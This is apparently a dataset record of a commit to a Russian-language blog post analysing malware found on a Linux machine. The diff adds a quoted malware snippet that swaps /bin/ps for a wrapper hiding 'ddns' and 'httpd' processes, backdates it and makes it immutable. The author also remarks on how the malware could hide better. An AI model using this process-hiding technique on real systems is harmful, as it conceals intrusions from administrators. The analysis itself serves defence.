

Before and after one commit to cryptopunks/cryptopunks.github.io, a Jekyll site: the page built from _posts/2022-02-15-looking-for-virus-in-linux-system.markdown, in a window 1280 px wide and 900 px high, scrolled down 5764 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
добавил описание про маскировку ps

````diff
--- a/_posts/2022-02-15-looking-for-virus-in-linux-system.markdown
+++ b/_posts/2022-02-15-looking-for-virus-in-linux-system.markdown
@@ -176,6 +176,19 @@ fi
 У них, кстати, неплохой код, его очень интересно изучать. Хотя и не без грубых косяков!
 Например, можно было бы сделать его присутствие менее паливным. Как минимум, не нужно было его пихать сразу во все места, ну и дату создания файла можно же поменять у ФС для созданных и модифицированных файлов. А так, по сути, они все **find**'ом ищутся через опцию **atime**. Ну чуваки, ну камон)
 
+Зато обрати внимание как он лихо скрывает своё присутствие в **ps**:
+
+```bash
+    ...
+    mv /bin/ps /bin/ps.lanigiro
+fi
+echo "#!/bin/bash">/bin/ps
+echo "ps.lanigiro \$@ | grep -v 'ddns\|httpd'" >>/bin/ps
+touch -d 20160825 /bin/ps
+chmod a+x /bin/ps
+${CHATTR} +i /bin/ps
+```
+
 Если интересно (не забудь [написать](/about/)) — могу разобрать их в следующей статье.
 
 Так, вернемся к зараженной машине и посмотрим, что в **/var/tmp/** (этот пусть я нашел в ранее упомянутом файлике **a.sh**):
````
Also changed, not shown: uploads/2022-02-15-looking-for-virus-in-linux-system/dot3lol.png.
